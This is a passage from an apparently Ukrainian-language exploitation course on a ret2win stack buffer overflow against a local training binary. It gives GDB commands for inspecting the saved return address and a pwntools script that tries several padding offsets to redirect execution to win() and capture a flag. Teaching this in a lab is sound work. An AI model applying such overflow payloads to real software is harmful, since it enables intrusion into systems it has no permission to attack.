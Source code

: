 ```python
print(f"[+] Мінімальний offset: {low}")
```

## 🎓 Практичні завдання

### Завдання 1: Візуалізація стеку в GDB

```bash
# Запустіть з GDB
gdb ../build/stage06_ret2win

# В GDB:
break vuln              # Точка зупинки в vuln()
run                     # Запуск
# Введіть щось короткe: AAAA

# Подивіться стек
x/20gx $rsp             # 20 qword'ів зі стеку
info frame              # Інфо про поточний фрейм

# Продовжте до return
break *vuln+XX          # Знайдіть адресу ret інструкції
continue

# Подивіться що на стеку перед ret
x/gx $rsp               # Це saved RIP!
```

### Завдання 2: Експеримент з неправильним offset

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF('../build/stage06_ret2win', checksec=False)
win = elf.symbols['win']

# Спробуємо різні offset
for offset in [64, 68, 72, 76, 80]:
    print(f"\n[*] Тестуємо offset {offset}")
    io = process('../build/stage06_ret2win')

    payload = b'A' * offset + p64(win)
    io.sendlineafter(b'name\n', payload)

    try:
        output = io.recvall(timeout=1).decode()
        if 'FLAG' in output:
            print(f"[+] SUCCESS з offset {offset}")
            print(f"    {output.strip()}")
        else:
            print(f"[-] FAIL: {output.strip()[:50]}")
    except:
        print(f"[-] CRASH")

    io.close()
```
